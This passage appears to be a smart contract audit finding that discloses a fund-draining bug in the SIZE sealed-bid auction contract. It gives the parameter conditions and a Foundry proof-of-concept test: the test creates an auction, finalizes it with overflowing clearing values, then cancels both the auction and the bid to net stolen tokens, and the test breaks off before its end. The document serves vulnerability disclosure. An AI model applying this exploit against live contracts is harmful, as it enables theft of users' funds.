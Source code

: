 Merging them gives us two equations to substitute variables in:

1.  `minimumBidQuote / totalBaseAmount < reserveQuotePerBase <= UINT128_MAX / clearingBase`
2.  `quoteAmount > minimumBidQuote`

In the POC I've crafted parameters to steal 2&ast;&ast;30 quote tokens, around 1000 in USDC denomination. With the above equations, increasing or decreasing the stolen amount is simple.

### Impact

An attacker can steal all tokens held in the SIZE auction contract.

### Proof of Concept

Copy the following code in SizeSealed.t.sol

    function testAttack() public {
        quoteToken = new MockERC20("USD Coin", "USDC", 6);
        baseToken = new MockERC20("DAI stablecoin ", "DAI", 18);
        // Bootstrap auction contract with some funds
        baseToken.mint(address(auction), 1e20);
        quoteToken.mint(address(auction), 1e12);
        // Create attacker
        MockSeller attacker_seller  = new MockSeller(address(auction), quoteToken, baseToken);
        MockBuyer attacker_buyer = new MockBuyer(address(auction), quoteToken, baseToken);
        // Print attacker balances
        uint256 balance_quote;
        uint256 balance_base;
        (balance_quote, balance_base) = attacker_seller.balances();
        console.log("Starting seller balance: ", balance_quote, balance_base);
        (balance_quote, balance_base) = attacker_buyer.balances();
        console.log('Starting buyer balance: ', balance_quote, balance_base);
        // Create auction
        uint256 auction_id = attacker_seller.createAuction(
            2**32,  // totalBaseAmount
            2**120, // reserveQuotePerBase
            2**20, // minimumBidQuote
            uint32(block.timestamp), // startTimestamp
            uint32(block.timestamp + 1),  // endTimestamp
            uint32(block.timestamp + 1), // vestingStartTimestamp
            uint32(block.timestamp + 1), // vestingEndTimestamp
            0 // cliffPercent
        );
        // Bid on auction
        attacker_buyer.setAuctionId(auction_id);
        attacker_buyer.bidOnAuction(
            2**30, // baseAmount
            2**30  // quoteAmount
        );
        // Finalize with clearingQuote = clearingBase = 2**128-1
        // Will transfer unsold base amount + matched quote amount
        uint256[] memory bidIndices = new uint[](1);
        bidIndices[0] = 0;
        vm.warp(block.timestamp + 10);
        attacker_seller.finalize(bidIndices, 2**128-1, 2**128-1);
        // Cancel auction
        // Will transfer back sold base amount
        attacker_seller.cancelAuction();
        // Cancel bid
        // Will transfer back to buyer quoteAmount
        attacker_buyer.cancel();
        // Net profit of quoteAmount tokens of quoteToken
        (balance_quote, balance_base) = attacker_seller.balances();
        console.log("End seller balance: ", balance_quote, balance_base);
        (balance_quote, balance_base) = attacker_buyer.balances();
